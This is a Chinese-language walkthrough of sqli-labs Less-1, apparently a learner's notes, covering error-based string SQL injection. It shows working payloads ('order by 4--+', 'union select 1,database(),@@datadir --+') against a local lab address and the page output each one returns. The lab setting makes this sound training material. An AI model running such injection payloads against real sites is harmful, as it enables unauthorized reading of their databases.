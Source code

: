 ## ***一、Less-1 **Error Based- String*****

#### 1、判断注入类型
输入`?is=1'`
报错：

	You have an error in your SQL syntax; check the manual
	that corresponds to your MySQL server version for the
	 right syntax to use near ''1'' LIMIT 0,1' at line 1

从`'1'' LIMIT 0,1`可以看出，为字符型注入。那么就可以通过注释我们添加上的 `'` 后的内容执行查询。

注释可通过 --+ 或者 %23 (url中要将#编码)

当然这关也可以采用布尔注入、时间注入。。。

#### 2、猜解字段 	
利用`order by` 猜解。

二分法

当输入大于3的数字时
`http://192.168.2.222/sqli-labs-master/Less-1/?id=1' order by 4--+
`

发生报错`Unknown column '4' in 'order clause'`

输入3或3以下的数字，页面回显正常，说明字段数是3.

#### 3、查看字段回显
	http://192.168.2.222/sqli-labs-master/Less-1/?id=-1' union select 1,2,3  --+

或者：

	http://192.168.2.222/sqli-labs-master/Less-1/?id=1' and 1=2 union select 1,2,3  --+

查看字段回显，发现2和3的位置有回显。

因为有的语句限制只能查看第一行可以选择查询参数为-1（一个表中不可能存在的值）或者制造布尔类型错误，这样查询内容为空才可以看到自己需要的内容。

![union查询](https://s1.ax1x.com/2020/06/28/NRCPBQ.png)

#### 4、爆出数据库
`http://192.168.2.222/sqli-labs-master/Less-1/?id=-1' union select 1,database(),@@datadir  --+
`

页面回显：

    WelcomeDhakkan
    Your Login name:security
    Your Password:/var/lib/mysql/ 

